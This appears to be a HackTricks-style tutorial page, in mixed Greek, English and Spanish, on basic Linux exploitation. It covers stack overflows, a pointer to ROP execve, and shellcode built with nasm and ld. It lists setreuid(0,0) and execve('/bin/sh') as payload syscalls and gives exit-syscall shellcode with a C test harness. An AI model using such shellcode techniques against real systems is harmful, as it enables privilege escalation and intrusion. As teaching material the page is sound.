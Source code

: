 # Linux Exploiting (Βασικό) (SPA)

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου AWS του HackTricks)</strong></a><strong>!</strong></summary></details>

## **1.ΥΠΕΡΡΟΗΣΕΙΣ ΣΤΗΝ ΣΤΟΙΒΑ (STACK OVERFLOWS)**

> buffer overflow, buffer overrun, stack overrun, stack smashing

Segmentation fault ή παραβίαση τμήματος: Όταν προσπαθείτε να αποκτήσετε πρόσβαση σε μια διεύθυνση μνήμης που δεν έχει εκχωρηθεί στη διαδικασία.

Για να λάβετε τη διεύθυνση μιας συνάρτησης μέσα σε ένα πρόγραμμα μπορείτε να κάνετε:
```
objdump -d ./PROGRAMA | grep FUNCION
```
## ROP

### Κλήση στο sys\_execve

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

## **2.SHELLCODE**

View kernel interrupts: cat /usr/include/i386-linux-gnu/asm/unistd\_32.h | grep “\_\_NR\_”

setreuid(0,0); // \_\_NR\_setreuid 70\
execve(“/bin/sh”, args\[], NULL); // \_\_NR\_execve 11\
exit(0); // \_\_NR\_exit 1

xor eax, eax ; clear eax\
xor ebx, ebx ; ebx = 0 as there are no arguments to pass\
mov al, 0x01 ; eax = 1 —> \_\_NR\_exit 1\
int 0x80 ; Execute syscall

**nasm -f elf assembly.asm** —> Returns a .o file\
**ld assembly.o -o shellcodeout** —> Gives us an executable containing the assembly code and we can extract the opcodes with **objdump**\
**objdump -d -Mintel ./shellcodeout** —> To verify that it is indeed our shellcode and extract the OpCodes

**Verify that the shellcode works**
```
char shellcode[] = “\x31\xc0\x31\xdb\xb0\x01\xcd\x80”

void main(){
void (*fp) (void);
fp = (void *)shellcode;
fp();
}<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```
Για να ελέγξετε αν οι κλήσεις συστήματος γίνονται σωστά, πρέπει να μεταγλωττίσετε το πρόγραμμα παραπάνω και οι κλήσεις συστήματος πρέπει να εμφανιστούν στο **strace ./PROGRAMA\_COMPILADO**
